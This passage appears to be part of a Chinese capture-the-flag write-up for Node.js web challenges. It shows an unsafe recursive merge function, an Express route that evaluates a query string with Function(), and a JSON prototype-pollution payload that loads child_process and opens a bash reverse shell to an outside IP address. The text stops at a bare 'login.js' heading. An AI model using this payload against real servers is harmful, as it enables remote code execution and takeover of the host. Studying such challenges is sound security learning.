 common.js

```javascript
module.exports = {
  copy:copy
};

function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }
```

api.js

```javascript
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');



/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  res.render('api', { query: Function(query)(query)});
    // 通过 res.render() 方法渲染名为 'api' 的视图模板，并传递一个包含 query 属性的对象作为参数。这里使用了 Function(query) 来创建一个函数，并立即调用该函数并传递 query 作为参数。这样做可能是为了在视图模板中使用 query 变量。
   
});

module.exports = router;
```

payload

```json
{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/119.3.125.218/1234 0>&1\"')"}}
```

查看login.js

![image-20240322144733780](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240322144733780.png)



### web340

login.js
